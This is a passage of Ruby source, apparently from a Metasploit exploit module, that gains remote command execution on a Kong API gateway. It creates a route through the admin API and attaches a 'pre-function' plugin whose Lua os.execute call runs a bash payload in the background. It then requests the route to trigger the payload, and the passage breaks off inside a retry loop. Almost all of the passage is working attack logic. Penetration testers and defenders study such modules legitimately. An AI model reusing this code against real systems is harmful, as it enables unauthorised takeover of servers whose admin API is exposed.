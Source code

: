 ```
          'Reliability' => [REPEATABLE_SESSION],
          'SideEffects' => [IOC_IN_LOGS, CONFIG_CHANGES]
        }
      )
    )
    register_options(
      [
        OptString.new('PUBLIC-API-RHOST', [false, 'The host where the public API is available, if different to RHOST']),
        OptInt.new('PUBLIC-API-RPORT', [true, 'The port where the public API is available', 8000]),
        OptString.new('TARGETURI', [true, 'URI to the Kong server', '/'])
      ],
      self.class
    )
  end

  def check_response(response, expected, path, description)
    fail_with(Failure::Unreachable, "No response received from #{path} when #{description}") unless response
    return if response.code == expected

    fail_with(Failure::UnexpectedReply,
              "Unexpected response from #{path} when #{description} (received #{response.code}, expected #{expected})")
  end

  def create_route
    path = normalize_uri(target_uri.path, 'routes')
    response = send_request_cgi({
      'method' => 'POST', 'uri' => path,
      'vars_post' => { 'name' => @rand_name, 'paths' => "/#{@rand_name}" }
    })
    check_response(response, 201, path, 'creating route')
  end

  def create_plugin
    # The double square brackets helps to ensure single/double quotes in cmd payload do not interfere with syntax of
    # os.execute Lua function. The ampersand backgrounds the command so that it doesn't cause Kong to hang.
    cmd = %{os.execute([[bash -c "#{payload.encoded}" &]])}
    path = normalize_uri(target_uri.path, 'routes', @rand_name, 'plugins')
    response = send_request_cgi({
      'method' => 'POST', 'uri' => path,
      'vars_post' => { 'name' => 'pre-function', 'config.access' => cmd }
    })
    check_response(response, 201, path, 'creating plugin')
  end

  def request_route
    path = normalize_uri(target_uri.path, @rand_name)
    rhost = datastore['PUBLIC-API-RHOST'] if datastore['PUBLIC-API-RHOST']
    rport = datastore['PUBLIC-API-RPORT'] if datastore['PUBLIC-API-RPORT']
    retry_count = 0
    begin
      response = send_request_cgi({ 'uri' => path, 'rhost' => rhost, 'rport' => rport })
      check_response(response, 503, path, 'requesting route')
    rescue Msf::Exploit::Failed
      maximum_retries = 3
      if retry_count <= maximum_retries
        retry_count += 1
        print_status("Route not yet available, trying again - attempt #{retry_count}/#{maximum_retries}")
```